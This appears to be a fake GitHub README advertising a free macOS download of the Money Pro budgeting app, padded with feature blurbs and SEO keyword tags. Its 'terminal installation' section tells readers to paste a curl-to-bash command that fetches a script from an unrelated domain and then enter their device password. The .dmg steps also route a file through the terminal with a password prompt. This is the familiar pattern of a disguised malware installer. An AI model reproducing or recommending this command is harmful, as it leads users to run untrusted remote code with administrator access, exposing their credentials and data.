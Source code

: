 # Money Pro — Download For Mac OS 🤑

Manage your finances effortlessly with Money Pro for Mac! Follow the simple instructions below to install this powerful budgeting app and take control of your money.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)]()

If the download button doesn't work, follow the terminal installation instructions below.

## 📦 How to Install Money Pro For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

- 🧾 **Budget Tracking**: Create and monitor budgets for multiple categories with real-time updates.
- 📊 **Reports & Insights**: Generate detailed financial reports to analyze spending habits.
- 💸 **Bill Management**: Schedule and track recurring bills to avoid late payments.
- 💳 **Multi-Currency Support**: Manage finances in various currencies with automatic conversions.
- 🔄 **Sync Across Devices**: Seamlessly sync data between your Mac, iPhone, and iPad.
- 🔒 **Data Security**: Protect your financial data with robust encryption and password options.

---

## About Money Pro

Money Pro for Mac is a comprehensive financial management tool designed to simplify budgeting, bill tracking, and expense monitoring. Whether you're managing personal finances or small business accounts, Money Pro offers an intuitive interface and powerful features to keep your financial life organized. With its seamless integration across Apple devices, you can access your data anytime, anywhere. The app supports keywords like *money management*, *budget planner*, and *finance tracker* to ensure you find the right tools for your needs.

The app’s budgeting capabilities allow users to set spending limits across various categories, such as groceries, utilities, or entertainment. By using Money Pro, you can visualize your financial health through customizable reports that highlight trends and opportunities for savings. Its *free download* availability makes it accessible for Mac users looking to streamline their finances without upfront costs.

For those juggling multiple currencies, Money Pro’s *multi-currency support* is a game-changer. It automatically converts transactions using real-time exchange rates, making it ideal for travelers or international business owners. The app also prioritizes *data security*, employing encryption to safeguard sensitive information, ensuring peace of mind for users.

Money Pro stands out with its ability to sync data across devices via iCloud, allowing you to update your budget on your Mac and view it instantly on your iPhone or iPad. This feature, combined with its *personal finance* tools, makes it a top choice for users searching for a reliable *budgeting app* that integrates seamlessly into their Apple ecosystem.

### Why Choose Money Pro?

Money Pro’s key advantage is its balance of simplicity and depth. Unlike other apps, it combines an easy-to-use interface with advanced features like *expense tracking* and *financial planning*. Its *Mac OS compatibility* ensures smooth performance, while the *free download* option lowers the barrier to entry. Whether you're a beginner or a seasoned budgeter, Money Pro’s versatility and robust feature set make it a standout choice for *money management*.

---

## 🖼 Preview

![Dashboard Overview](https://money.pro/img/moneypro_mac_budget.jpg)
*View your budget, expenses, and reports in a sleek, user-friendly dashboard.*

![Budget Planner](https://money.pro/img/moneypro_mac_calendar.jpg)
*Easily set and track budgets for various spending categories.*

![Bill Tracking](https://money.pro/img/moneypro_mac_reports_bar.jpg)
*Schedule and manage recurring bills to stay on top of payments.*

---

## 🔍 Tags

money pro free download, money pro, money pro for mac, money pro software, money for macbook, money pro free, money pro download, money pro fre download, moneyguidepro, pro money, money pro mac, money pro for mac, my money pro
